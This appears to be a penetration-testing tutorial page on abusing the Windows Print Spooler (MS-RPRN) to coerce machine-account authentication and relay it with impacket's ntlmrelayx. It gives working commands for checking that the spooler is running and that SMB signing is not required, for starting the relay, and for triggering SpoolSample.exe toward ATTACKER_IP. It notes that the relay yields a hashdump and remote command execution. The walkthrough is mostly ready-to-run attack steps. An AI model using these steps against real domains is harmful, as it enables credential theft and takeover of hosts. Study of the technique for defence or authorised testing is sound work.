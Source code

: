 # Exploiting authentication relay \~ Print Spooler Service

### Resources

1. **Print System Remote Protocol** (**MS-RPRN**)

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1" %}

2. &#x20;**Print Spooler Service**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc" %}

3. **Impacket scripts**

{% embed url="https://www.kali.org/tools/impacket-scripts/" %}

4. **SpoolSample exploitation script**

{% embed url="https://github.com/leechristensen/SpoolSample" %}

A certain bug or "feature" in Microsoft Print System Remote Protocol (MS-RPRN) allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitary IP address.

> Note that the attack discussed below can be unstable, and may cause the Print Spooler service to crash, and the success of the attack varies.

To exploit this flaw, we need to meet the following requirements:

1. A valid set of AD account credentials

* To have access to machines within the AD network, to perform required tasks in the other steps

2. Network connectivity to the target's SMB service
3. The target host must be running the Print Spooler service
4. The hosts involved must not have SMB signing enforced



The sections below discusses how to explore the requirements listed above.

#### #3 The target host must be running the Print Spooler service

We can utilize a few WMI queries from another machine on the network (with network connectivity to the target host) to query the current state:

```powershell
PS> GWMI Win32_Printer -ComputerName <target>
# OR
PS> Get-PrinterPort -ComputerName <target>
```

> Note that the success of this may vary, as Microsoft has been limiting the view on these ports from the network perspective.

#### #4 The hosts involved must not have SMB signing enabled

We can use nmap to enumerate the SMB signing enforcement on our target hosts:

{% code overflow="wrap" %}
```sh
$ nmap --script=smb2-security-mode -p445 <target1> <target2>
```
{% endcode %}

Ideally, we look for the following output: "**Message signing enabled but not required"**.

### Exploitation

From Bloodhound, we may be able to find a situation where a computer (machine account) has privileges over another computer, and is running the Print Spooler service that we can exploit. This means that we can coerce the first host to authenticate to the second host.

&#x20;To which we can perform an authentication relay attack to gain access to the second host as the machine account of our original target host. If the machine account has a dangerous privilege over the other host, we can further exploit it to gain more access.

1. First, we can use ntlmrelayx.py from impacket scripts to setup the NTLM relay:

> This should be ran from the attacker machine

{% code overflow="wrap" %}
```sh
$ python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"TARGET IP" -debug
```
{% endcode %}

* `TARGET_IP` : the IP address of the second host to which we want to relay the NTLM authentication to
  * Note that we specify the IP address instead of the hostname as we want to prevent Kerberos authentication (which relies on the hostname) from happening

2. Next, we have to coerce our target with the [SpoolSample](https://github.com/leechristensen/SpoolSample) exploitation script:

```
C:\> SpoolSample.exe <target> "ATTACKER_IP"
```

* `<target>` : Hostname of the target host (to which we wish to coerce the authentication from)
* `ATTACKER_IP` : the IP address of our attacker machine from the first step



3. After performing step 3, we will now have received an authentication attempt and a relay to the second host (from the ntlmrelayx impacket script on the attacker machine), while also an automatic hashdump which may provide use with credentials to get a shell on the host.

Optionally,  we can use supply the `-c` flag to `ntlmrelayx.py` to execute a commnd on the target system (for SMB and RPC).

